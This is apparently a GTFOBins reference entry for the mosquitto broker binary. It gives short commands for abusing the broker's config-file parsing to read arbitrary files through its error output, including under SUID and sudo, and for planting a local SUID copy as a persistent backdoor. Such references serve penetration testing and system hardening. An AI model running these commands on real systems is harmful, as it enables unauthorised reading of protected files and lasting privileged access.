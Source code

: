 # GTFOBin: mosquitto

The file is actually parsed and the first wrong line (ending with a newline or a null character) is returned in an error message, thus it may not be suitable for reading arbitrary files

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
mosquitto -c "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which mosquitto) .

LFILE=file_to_read
./mosquitto -c "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo mosquitto -c "$LFILE"
```